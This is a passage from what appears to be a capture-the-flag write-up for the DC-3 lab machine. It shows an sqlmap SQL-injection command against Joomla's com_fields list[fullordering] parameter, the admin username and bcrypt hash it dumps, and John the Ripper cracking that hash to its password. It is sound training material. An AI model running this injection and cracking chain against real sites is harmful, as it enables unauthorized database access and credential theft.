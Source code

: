 ~~~
500 (Internal Server Error) - 2671 times
[15:34:25] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/dc-3'

[*] ending @ 15:34:25 /2020-10-06/
~~~

## Dump the users table

Now that we now the database name (`joomladb`), we can list the tables. There is a `users` table that should contain credentials; let's dump the content:

~~~
kali@kali:/data/DC-3-2/files$ sqlmap -u "http://dc-3/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --dump

[REDACTED]

Database: joomladb
Table: #__users
[1 entry]
+-----+-------+--------------------------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+----------+
| id  | name  | email                    | params                                                                                       | password                                                     | username |
+-----+-------+--------------------------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+----------+
| 629 | admin | freddy@norealaddress.net | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu | admin    |
+-----+-------+--------------------------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+----------+
~~~

# Joomla admin access

## Crack the admin password

Now provided with admin hashed password, let's save it to a file and run John:

~~~
kali@kali:/data/DC-3-2/files$ /data/src/john/run/john admin.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snoopy           (admin)
1g 0:00:00:02 DONE (2020-10-06 15:43) 0.3875g/s 55.81p/s 55.81c/s 55.81C/s 555555..sandra
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~
